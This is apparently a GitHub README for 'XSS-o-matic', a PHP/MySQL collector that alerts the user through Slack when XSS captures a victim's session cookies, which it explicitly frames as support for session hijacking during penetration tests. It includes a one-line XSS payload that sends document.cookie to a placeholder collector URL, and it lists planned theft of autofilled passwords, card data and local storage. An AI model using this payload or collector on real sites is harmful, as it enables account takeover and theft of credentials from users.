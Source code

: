 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  

TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

# Future Implementation Goals Include : 

Capturing Cross Domain Cookies

Hidden User/Pass/CC Fields for Auto Population

Ability to Read Local Storage if Available

Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is Discovered During an Application Security or Penetration Test, Simply Use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1` or a Similar Payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work.



![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
